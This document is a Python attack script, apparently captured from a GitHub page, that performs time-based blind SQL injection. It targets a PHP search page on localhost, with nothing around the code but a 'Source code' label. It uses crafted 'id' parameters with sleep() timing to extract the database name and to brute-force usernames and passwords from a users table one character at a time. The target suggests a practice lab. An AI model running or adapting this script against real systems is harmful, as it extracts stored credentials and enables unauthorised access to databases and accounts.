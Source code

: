 ```python
#!/usr/bin/python3
import requests
from pwn import *
import signal
import sys
import time

# manage force stop
def def_handler(sig, frame):
    print('\n[!] Exiting...\n')
    sys.exit(1)

def makeSQLI():
    # show progess
    progress_bar_1 = log.progress('BRUTE FORCE')
    progress_bar_1.status('Starting brute force')
    time.sleep(2)
    progress_bar_2 = log.progress('Extracted data')

    # extracted data
    matchedString = ''
    for word_position in range(1, 100):
        for character in range(33, 127):
            # construct url injection
            # retrieve database name
            #sqli_url = main_url + '?' + 'id=1 and if(ascii(substring(database(),%d,1))=%d,sleep(0.35),0)' % (word_position, character)
            # retrieve username and password by using group_concat()
            sqli_url = main_url + '?' + 'id=1 and if(ascii(substring((select group_concat(username, 0x3a, password) from users),%d,1))=%d,sleep(0.35),0)' % (word_position, character)

            progress_bar_1.status(sqli_url)

            # capture query time
            time_start = time.time()
            r = requests.get(sqli_url)
            time_end = time.time()

            # verifying status code
            if time_end - time_start >= 0.35:
                matchedString += chr(character)
                progress_bar_2.status(matchedString)
                break

# ctrl+c
signal.signal(signal.SIGINT, def_handler)

# global variables
main_url = "http://localhost/searchUsers2.php"
characters = string.printable

if __name__ == '__main__':
    makeSQLI()
```
----